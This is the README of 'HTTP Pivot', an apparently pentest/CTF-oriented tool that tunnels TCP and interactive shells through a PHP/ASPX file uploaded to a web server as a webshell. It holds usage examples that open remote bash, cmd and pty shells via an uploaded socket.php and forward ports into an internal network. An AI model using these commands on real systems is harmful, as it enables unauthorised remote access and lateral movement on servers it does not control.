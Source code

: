 # HTTP Pivot - Yet another HTTP Tunnel

Pivot TCP connections through a `http` server (by uploading a `php` or
`aspx` file). Ideal in situations where bind/reverse shells do not
work, and hence tools like [chisel][chisel] are troublesome
too. Currently supports running remote interactive processes
(i.e. shells) or connecting to tcp services on the other side of the
http server.

The project is similar to [Tunna][tunna] and
[ChunkyTuna][chunky]. However, differs in architecture in that the
`read` function (i.e. getting output of interactive process) is by
design a blocking operation with a 5 second timeout. Thus, as soon as
data is available it is returned to the client without excessive
polling.

* In [Tunna][tunna], it configures the socket as non-blocking and is
polled (and hence a bit slow).
* In [ChunkyTuna][chunky], it uses a chunked http transfer. While this
  is a nice solution as it streams data directly back to the client
  when its available. Alas, chunked transfer encoding is [limited to
  HTTP/1.1][transfer-encoding], and hence is not future proof for
  HTTP2 and HTTP3 as they use a different method. Also, possible
  compatibility issues with proxies that can try to buffer responses.

There are also issues of having long running processes sitting in a
webserver, which are designed to run lots of short lived
threads. E.g. in ASPX its required to set the page into debug mode to
prevent it killing pages that take a long time to load.

The solution used by this project was to use a scripting language
(python/powershell) to provide a backend webserver that hosts the
feature. Then all the webserver does is proxy requests between the
client and the backend service.

```text

 socket-shell.py         [Local Machine]
      /|\
       |   HTTP
      \|/
 socket.php/socket.aspx  [Remote Server]
      /|\
       |   HTTP (loopback)
      \|/
 python/powershell       [Remote Server]
       |
       |--- OR ------------------------------------------
       |                                                |
       |   Pipe                                         |   TCP/IP
      \|/                                              \|/
  process, e.g. sh or cmd                         remote service
       
```


The reason I chose to separate out the backend is two fold:

1. While exploring chunked transfers, streaming blocks (in HTTP/2) and
   web sockets it became clear there were a number of possible issues:
   size of code (esp. when supporting multiple streaming
   technologies), quirks of specific http servers, legacy application
   firewalls and web proxies (e.g. `nginx` proxy will by default
   buffer responses).
2. Pushing complexity into both the `socket-shell.py` and backend
   scripts allow for communication over basic HTTP `GET` and `POST`
   requests. This avoids many of the issues with above point.  Think
   of the `socket.php`/`socket.aspx` as simple proxies that have no
   state information and just forward HTTP requests.

To keep deployment simple the `socket.php`/`socket.aspx` are
polyglots. Thus, all that is needed is to be done is place one of
these files on the remote server (as if it were a *webshell*) and
connect to it using `socket-shell.py`.

## Usage

```text
usage: socket-shell.py [-h] (--cmd CMD | --connect SPEC) [--raw] [--auth CREDS] URL

Exfiltration shell.

positional arguments:
  URL             url of socket.php

optional arguments:
  -h, --help      show this help message and exit
  --cmd CMD       command to execute, e.g. "sh" or "script -qfc bash /dev/null"
  --connect SPEC  port forward from remote service to local host. SPEC is similar to as ssh's -L,
                  i.e. localaddr:localport:remoteaddr:remoteport.
  --raw           set local terminal into raw mode (and restore on exit), valid for --cmd when
                  directly starting up a pty shell.
  --auth CREDS    basic auth credentials like user:pass
```

### Examples

Creating and connecting to a remote shell ([`rlwrap`][rlwrap] is
optional):

```text
rlwrap socket-shell.py --cmd bash http://1.2.3.4/uploads/socket.php
rlwrap socket-shell.py --cmd cmd http://1.2.3.4/uploads/socket.aspx
```

Creating and connection to a remote pty shell (notice the use of `--raw`):
```text
./socket-shell.py --cmd 'script -qfc bash /dev/null' --raw http://1.2.3.4/uploads/socket.php
```

Forwarding localhost port 8080 to a remote web service:
```text
./socket-shell.py --connect 127.0.0.1:8080:192.168.76.44:80 http://1.2.3.4/uploads/socket.php
```

## Remarks

I was unable to create powershell code that used native commands. The
option I considered were to either use a socket and manually parse the
HTTP or use the [`HttpListner`][httplistener] class (I might have
missed another option). To simplify the code, I opted for the
latter. However, I was unable to get it to work reliably using just
powershell constructs as it needed to allow for multi-threading due to
the design of `socket-shell.py`. I attempted to use both [Run
Spaces][runspace] and [Async operations][begingetcontext], however in
both cases it started working ok but after a small number of requests
it would stop servicing them (also the performance was very bad). In
the end, I resulted to using [`Add-Type`][addtype] to load a simple
`c#` class that uses the [`HttpListner`][httplistener] to create a
http server, the powershell script became a wrapper. This has the
advantage, in cases where powershell is restricted (e.g. constrained
language mode), it is straight forward to extract this class and
compile it into an `exe` and upload it with minimal changes.

The client script supports a `--raw` flag that supports putting the
terminal into `raw` mode for running remote `pty`s. To support this,
the script catches each key press and sends it to the remote
server. While this is useful with `pty` based remote shells, it
non-`pty` shells loose the option of running within a python command
loop (to take advantage of readline). To ameliorate this, its
recommended to wrap execution within [`rlwrap`][rlwrap] when connection to a
non-`pty` shell.


## Limitations

The current code is very much a proof of concept. Apart from using it
on a couple CTF style boxes it has not been properly stressed.

Also, please be aware that everything is sent in plaintext.

There is no error handling, if a request fails it is not retried.

### TODO / Wish list

I dont think any of the following particularly difficult to implement,
there just has not been a need yet.

1. Support UDP.
2. Support TCP listen.
3. Integrate front end with a SOCKS server.
4. Add encryption.
5. Consider cases where HTTP requests fail.
6. Add `Cache-Control` headers.

## Other Bits

Copyright 2021, Karim Kanso. All rights reserved. Licensed under GPLv3.


[tunna]: https://github.com/SECFORCE/Tunna "GitHub: Tunna"
[chunky]: https://github.com/SecarmaLabs/chunkyTuna "GitHub: ChunkyTuna"
[transfer-encoding]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Transfer-Encoding "Mozilla: Transfer-Encoding"
[httplistener]: https://docs.microsoft.com/en-us/dotnet/api/system.net.httplistener "Microsoft: HttpListener"
[runspace]: https://devblogs.microsoft.com/scripting/beginning-use-of-powershell-runspaces-part-1/ "Microsoft: Beginning Use of PowerShell Runspaces"
[begingetcontext]: https://docs.microsoft.com/en-us/dotnet/api/system.net.httplistener.begingetcontext "Microsoft: HttpListener.BeginGetContext"
[addtype]: https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type "Microsoft: Add-Type"
[rlwrap]: https://linux.die.net/man/1/rlwrap "Linux man page: rlwrap"
[chisel]: https://github.com/jpillora/chisel "GitHub: chisel"
